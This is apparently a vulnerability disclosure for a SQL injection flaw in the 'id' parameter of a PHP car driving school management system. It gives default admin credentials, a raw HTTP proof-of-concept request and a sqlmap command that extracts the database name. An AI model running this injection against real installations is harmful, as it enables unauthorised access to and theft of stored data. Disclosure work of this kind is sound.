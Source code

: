 ### SQL injection vulnerability exists in Sourcecodester Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route:/cdsms/admin/packages/view_package.php?id=1

related code file:view_package.php

injection parameter:$_GET['id']

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the view_package.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240725211901031](assets/image-20240725211901031.png)

#### 2.Vulnerability verification and exploit

After admin/admin123 logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.Note that you need to modify the deployed IP address, port, and cookie information in the data packet according to the environment.

```
GET /cdsms/admin/packages/view_package.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/cdsms/admin/?page=packages
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1721700678; PHPSESSID=32r6u9afm833p0abeg632sl4id
Connection: close

```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240725211834016](assets/image-20240725211834016.png)

Successfully obtained the injected payload and database name.

